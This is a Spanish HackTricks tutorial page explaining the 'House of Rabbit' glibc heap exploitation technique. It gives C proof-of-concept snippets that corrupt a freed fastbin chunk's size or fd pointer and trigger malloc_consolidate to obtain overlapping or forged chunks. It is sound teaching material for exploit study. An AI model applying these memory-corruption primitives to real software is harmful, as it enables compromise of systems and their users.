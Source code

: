 # Casa del Conejo

{% hint style="success" %}
Aprende y practica Hacking en AWS: <img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Aprende y practica Hacking en GCP: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Apoya a HackTricks</summary>

* ¡Consulta los [**planes de suscripción**](https://github.com/sponsors/carlospolop)!
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **síguenos** en **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Comparte trucos de hacking enviando PRs a los repositorios de** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
{% endhint %}

### Requisitos

1. **Capacidad para modificar el puntero fd o el tamaño de un fastbin**: Esto significa que puedes cambiar el puntero forward de un fragmento en el fastbin o su tamaño.
2. **Capacidad para activar `malloc_consolidate`**: Esto se puede hacer ya sea asignando un fragmento grande o fusionando el fragmento superior, lo que obliga al montón a consolidar fragmentos.

### Objetivos

1. **Crear fragmentos superpuestos**: Para que un fragmento se solape con otro, permitiendo manipulaciones adicionales del montón.
2. **Forjar fragmentos falsos**: Para engañar al asignador para que trate un fragmento falso como un fragmento legítimo durante las operaciones del montón.

## Pasos del ataque

### POC 1: Modificar el tamaño de un fragmento fastbin

**Objetivo**: Crear un fragmento superpuesto manipulando el tamaño de un fragmento fastbin.

* **Paso 1: Asignar fragmentos**
```cpp
unsigned long* chunk1 = malloc(0x40);  // Allocates a chunk of 0x40 bytes at 0x602000
unsigned long* chunk2 = malloc(0x40);  // Allocates another chunk of 0x40 bytes at 0x602050
malloc(0x10);                          // Allocates a small chunk to change the fastbin state
```
* **Paso 2: Liberar Chunks**
```cpp
free(chunk1);  // Frees the chunk at 0x602000
free(chunk2);  // Frees the chunk at 0x602050
```
* **Paso 3: Modificar el Tamaño del Chunk**
```cpp
chunk1[-1] = 0xa1;  // Modify the size of chunk1 to 0xa1 (stored just before the chunk at chunk1[-1])
```
* **Paso 4: Provocar `malloc_consolidate`**
```cpp
malloc(0x1000);  // Allocate a large chunk to trigger heap consolidation
```
Asignar un gran fragmento desencadena la función `malloc_consolidate`, fusionando fragmentos pequeños en el fast bin. El tamaño manipulado de `chunk1` hace que se solape con `chunk2`.

Después de la consolidación, `chunk1` se solapa con `chunk2`, lo que permite una mayor explotación.

### POC 2: Modificar el puntero `fd`

**Objetivo**: Crear un fragmento falso manipulando el puntero `fd` del fast bin.

* **Paso 1: Asignar Fragmentos**
```cpp
unsigned long* chunk1 = malloc(0x40);  // Allocates a chunk of 0x40 bytes at 0x602000
unsigned long* chunk2 = malloc(0x100); // Allocates a chunk of 0x100 bytes at 0x602050
```
**Explicación**: Asignamos dos fragmentos, uno más pequeño y otro más grande, para configurar el montón para el fragmento falso.

* **Paso 2: Crear fragmento falso**
```cpp
chunk2[1] = 0x31;  // Fake chunk size 0x30
chunk2[7] = 0x21;  // Next fake chunk
chunk2[11] = 0x21; // Next-next fake chunk
```
* **Paso 3: Liberar `chunk1`**
```cpp
free(chunk1);  // Frees the chunk at 0x602000
```
**Explicación**: Liberamos `chunk1`, añadiéndolo a la lista fastbin.

* **Paso 4: Modificar `fd` de `chunk1`**
```cpp
chunk1[0] = 0x602060;  // Modify the fd of chunk1 to point to the fake chunk within chunk2
```
**Explicación**: Cambiamos el puntero hacia adelante (`fd`) de `chunk1` para que apunte a nuestro chunk falso dentro de `chunk2`.

* **Paso 5: Desencadenar `malloc_consolidate`**
```cpp
malloc(5000);  // Allocate a large chunk to trigger heap consolidation
```
Asignar un gran fragmento nuevamente desencadena `malloc_consolidate`, que procesa el fragmento falso.

El fragmento falso se convierte en parte de la lista fastbin, convirtiéndose en un fragmento legítimo para futuras explotaciones.

### Resumen

La técnica de la **Casa del Conejo** implica modificar el tamaño de un fragmento de fast bin para crear fragmentos superpuestos o manipular el puntero `fd` para crear fragmentos falsos. Esto permite a los atacantes forjar fragmentos legítimos en el montón, lo que habilita diversas formas de explotación. Comprender y practicar estos pasos mejorará tus habilidades de explotación de montón.
